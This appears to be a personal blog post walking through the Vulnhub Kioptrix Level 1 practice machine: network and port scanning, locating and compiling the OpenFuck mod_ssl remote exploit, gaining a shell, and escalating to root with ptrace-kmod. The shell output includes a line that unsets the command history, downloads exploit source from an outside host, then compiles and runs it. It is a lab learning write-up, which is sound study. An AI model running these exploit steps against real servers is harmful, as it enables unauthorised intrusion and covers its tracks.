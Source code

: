 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 1"
date:   2017-04-18 21:50:00 +0100
categories: vulnhub kioptrix
---
```


The Kioptrix series was created by [@loneferret](https://twitter.com/loneferret) as a way of learning about different variations of linux. They are also designed to be very similar to those faced in the OSCP exam.  Since I'm eventually hoping to take this certification, this looked like a good candidate to learn from as they have been described as 'easy' in the sense that there aren't too many nasty traps.  The first to try is of course [Kioptrix: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) 

![](/assets/images/Kioptrix1/1.png)

As always, find the IP's of the box we want to target to ensure it's working.

{% highlight bash %}
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.132	00:0c:29:b7:d4:16	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.858 seconds (137.78 hosts/sec). 3 responded
{% endhighlight %}

Now lets do a port scan to see what services are open.

{% highlight bash %}
root@kali:~# nmap -A 192.168.137.132

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-18 21:48 BST
Nmap scan report for 192.168.137.132
Host is up (0.00031s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1026/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-04-18T20:50:46+00:00; +1m50s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:B7:D4:16 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.31 ms 192.168.137.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds
{% endhighlight %}

Browsing to the http server, we just a pretty simple welcome page, with not too much of interest.

![](/assets/images/Kioptrix1/2.png)

I ran dirbuster hoping there was something more interesting on the server but this didn't turn up much. 

{% highlight bash %}
dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 200
Dir found: /manual/ - 200
Dir found: /manual/mod/ - 200
File found: /test.php - 200
Dir found: /icons/small/ - 200
Dir found: /doc/ - 403
Dir found: /usage/ - 200
File found: /usage/usage_201704.html - 200
File found: /usage/usage_200909.html - 200
{% endhighlight %}

So after a lot of fruitless searching, I ended up looking for an Apache 1.3 exploit, hoping to use that as a route onto the server, but there was nothing that looked to give me a way onto the server.  I'd seen references to mod_ssl on a couple pages (in fact it's shown in the nmap scan too), so I tried that.

{% highlight bash %}
root@kali:~# searchsploit mod_ssl 2.8
{% endhighlight %}
* Apache mod_ssl 2.8.x - Off-by-One HTAccess Buffer Overflow  
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit 
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Exploit 

Lo and behold we have three exploits available, with OpenFuckV2 looking to be a way to get us onto the server.

So I downloaded OpenFuckV2 and compiled it according to the changes made [here](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/).  

{% highlight bash %}
gcc -o OpenFuck 764.c -lcrypto
{% endhighlight %}

Unfortunately, upon compiling, I got this error.

{% highlight bash %}
764.c:646:24: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function)
  unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
                        ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘read_ssl_packet’:
764.c:848:19: error: ‘SSL2_MT_ERROR’ undeclared (first use in this function)
    if ((buf[0] == SSL2_MT_ERROR) && (rec_len == 3)) {
                   ^~~~~~~~~~~~~
764.c:848:19: note: each undeclared identifier is reported only once for each function it appears in
764.c: In function ‘get_server_hello’:
764.c:980:16: error: ‘SSL2_MT_SERVER_HELLO’ undeclared (first use in this function)
  if (*(p++) != SSL2_MT_SERVER_HELLO) {
                ^~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_master_key’:
764.c:1072:10: error: dereferencing pointer to incomplete type ‘EVP_PKEY {aka struct evp_pkey_st}’
  if (pkey->type != EVP_PKEY_RSA) {
          ^~
764.c: In function ‘get_server_verify’:
764.c:1149:16: error: ‘SSL2_MT_SERVER_VERIFY’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_VERIFY) {
                ^~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_finished’:
764.c:1161:11: error: ‘SSL2_MT_CLIENT_FINISHED’ undeclared (first use in this function)
  buf[0] = SSL2_MT_CLIENT_FINISHED;
           ^~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘get_server_finished’:
764.c:1174:16: error: ‘SSL2_MT_SERVER_FINISHED’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_FINISHED) {
                ^~~~~~~~~~~~~~~~~~~~~~~
{% endhighlight %}

So, I'm including the error log here in case you stumbled across this page while googling.  The reason it seems, according to an unknown user in the comments of [this writeup](http://poc-hack.blogspot.co.uk/2012/08/kioptrix-hacking-challenge-level-1-part.html), is that the wrong version of libssl is installed.  This is fixed by installing an older version.

{%highlight bash %}
apt-get install libssl1.0-dev
{% endhighlight %}

So now we need to specify the shellcode we want to send depending on the install.  If you run the binary you'll see a list of all the possibles, but two stand out considering the known apache version and that there is a reference to Red Hat in the nmap scan and peppered around some random exposed files. From this we know that we want 0x6a or 0x6b.  0x6a yielded nothing but 0x6b got us a shell.

{%highlight bash%}
root@kali:~/Documents/Kioptrix1# ./OpenFuck 0x6b 192.168.137.132 443 

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc550
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--17:22:06--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... 
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$ 
{% endhighlight %}

So the ptrace-kmod.c file didn't work for some reason.  Not having actually read it I didn't realise this was what allowed us to get root so I spent a much longer time than I want to admit trying to find some other vulnerabilities.  After going to back to square one however, I realised this was what would help us get root on the box.  So I downloaded it to the box, compiled and ran.

{%highlight bash%}
bash-2.05$ gcc -o ptrace ptrace-kmod.c
gcc -o ptrace ptrace-kmod.c
bash-2.05$ ./ptrace
./ptrace
[+] Attached to 1329
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
{%endhighlight%}

Boom we have root!  All in all this is quite a simple box but really helped me bridge that gap in understanding how to use an exploit to compromise a server and actually going about it and troubleshooting issues along the way.  I'd highly recommend this, if like me you are new to security and looking to learn more about actually using exploits and information gathering to compromise a system.
